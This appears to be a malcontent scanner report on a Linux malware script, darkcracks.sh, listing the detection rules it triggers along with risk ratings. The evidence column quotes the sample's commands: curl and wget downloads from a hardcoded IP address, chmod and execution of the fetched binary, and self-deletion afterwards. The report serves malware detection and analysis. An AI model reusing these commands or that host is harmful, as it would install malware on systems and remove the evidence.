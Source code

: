 ## linux/2024.Darkcracks/darkcracks.sh [😈 CRITICAL]

| RISK | KEY | DESCRIPTION | EVIDENCE |
|--|--|--|--|
| CRITICAL | [evasion/file/location/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/file/location/chdir-unusual.yara#cd_val_obsessive) | changes directory to multiple unusual locations | [cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /;](https://github.com/search?q=cd+%2F%3B&type=code) |
| CRITICAL | [evasion/self_deletion/run_and_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_and_delete.yara#run_sleep_delete) | run executable, sleep, and delete | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code) |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip) | Invokes curl to download a file from an IP | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code) |
| HIGH | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#http_hardcoded_ip) | hardcoded IP address within a URL | [http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl)<br>[http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v) |
| HIGH | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#tool_chmod_relative_run_tiny) | fetch file, make it executable, and run it | [wget http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -O agr](https://github.com/search?q=wget+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-O+agr&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [c2/addr/url](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/url.yara#http_url_with_question) | contains hardcoded endpoint with a question mark | [curl](https://github.com/search?q=curl&type=code)<br>[wget](https://github.com/search?q=wget&type=code) |
| MEDIUM | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell) | executes shell | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code) |
| MEDIUM | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell) | makes file executable | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code) |
| MEDIUM | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val) | references and possibly executes relative path | [./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val) | path reference within /root | [/root](https://github.com/search?q=%2Froot&type=code) |
| MEDIUM | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod) | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code) |
| LOW | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path) | path reference within /var | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code) |
| LOW | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url) | contains embedded HTTP URLs | [http://179.191.68.85](http://179.191.68.85) |
| LOW | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell) | changes working directory | [cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code) |

